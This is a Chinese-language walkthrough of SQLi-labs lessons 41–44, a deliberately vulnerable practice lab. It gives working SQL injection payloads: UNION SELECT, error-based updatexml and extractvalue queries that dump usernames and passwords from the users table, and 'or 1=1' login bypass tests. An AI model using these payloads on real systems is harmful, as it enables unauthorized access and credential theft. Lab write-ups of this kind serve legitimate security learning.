 判定为数字型注入

payload:

> localhost/Less-41/?id=0 union select 1,2,3 –+

## Less-42

### POST字符型基于错误的的层次化查询注入

源码：

![](/img/sql/escape0.png)

转义了用户名但没有转义密码，联想到之前Less-24的二次注入。但是发现这次不让注册了。。。看到会报错，尝试使用less-27学的基于报错的`updatexml`语法。

payload:

> login\_user=root\&login\_password=1’ or updatexml(1,concat(0x2829,(select version())),1) –+\&mysubmit=Login
>
> login\_user=root\&login\_password=1’ or extractvalue(1,concat(0x2829,(select version()),1) –+\&mysubmit=Login
>
> login\_user=root\&login\_password=1’ or updatexml(1,concat(0x2829,(select concat\_ws(‘:’,id,username,password) from users limit 0,1)),1) –+\&mysubmit=Login

之后就可以登陆改密码啦。

## Less-43

### POST加括号字符型基于错误的的层次化查询注入

测试：

> login\_user=root\&login\_password=0’ or 1=1 –+\&mysubmit=Login
>
> login\_user=root\&login\_password=0’) or 1=1 –+\&mysubmit=Login

测试出sql语句是`')`闭合，payload与上题类似。

> login\_user=root\&login\_password=1’） or updatexml(1,concat(0x2829,(select version())),1) –+\&mysubmit=Login

## Less-44

### POST字符型层次化查询盲注

测试：

> login\_user=root\&login\_password=0’ or 1=1 –+\&mysubmit=Login
>
> login\_user=root\&login\_password=0” or 1=1 –+\&mysubmit=Login
